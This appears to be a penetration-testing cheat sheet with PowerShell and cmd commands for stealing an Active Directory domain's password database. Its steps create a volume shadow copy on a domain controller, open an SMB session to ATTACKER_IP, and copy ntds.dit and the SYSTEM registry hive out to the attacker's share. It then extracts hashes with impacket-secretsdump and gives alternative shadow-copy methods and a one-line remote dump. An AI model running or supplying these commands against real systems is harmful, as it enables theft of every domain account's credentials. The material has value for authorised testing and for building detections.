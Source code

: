 ```powershell
# from elevated terminal session:

# create volume shadow copy of C: drive
# -nw : no writers (to speed up creation)
# -p : store copy on disk
vshadow.exe -nw -p  C:
# pay attention to Shadow copy device name
# line under * SNAPSHOT ID = {UUID}
#    - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# create SMB session with hacker machine
net use \\ATTACKER_IP herpderp /user:derp

# copy the ntds.dit file over to attacker machine (must do in cmd, not PS)
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit \\ATTACKER_IP\share\ntds.dit.bak

# save copy of SYSTEM registry hive onto attacker machine
# this contains the encryption keys for the ntds.dit file
reg.exe save hklm\system \\ATTACKER_IP\share\system.hiv

# on Kali, use secretsdump to extract hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.hiv -outputfile ntds-dump LOCAL
```

Alternative ways to create shadow copies, plus ways of working with them:

```powershell
# create shadow copy with wmic:
wmic shadowcopy call create volume=c:\

# create with PowerShell
([WMICLASS]"root\cimv2:win32_shadowcopy").create("C:\","ClientAccessible")

# list all volume shadow copies for C: drive
vssadmin list shadows /for=C:

# list using Powershell (shows date created)
Get-CimInstance Win32_ShadowCopy | select Name,Caption,Description,ServiceMachine,InstallDate,ID,DeviceObject

# if you want to browse the files in the shadow copy, mount it:
# Note the trailing slash at the end of the shadow copy device name's path!
mklink /D C:\users\Public\stuff SHADOWCOPYDEVNAME\
```

`Secretsdump` also supports the VSS method directly:

```sh
# perform VSS technique all in one go using secretsdump (-use-vss flag)
impacket-secretsdump -use-vss -just-dc -outputfile ntds-dump DOMAIN/ADMINUSER:PASSWORD@DC_IP
```

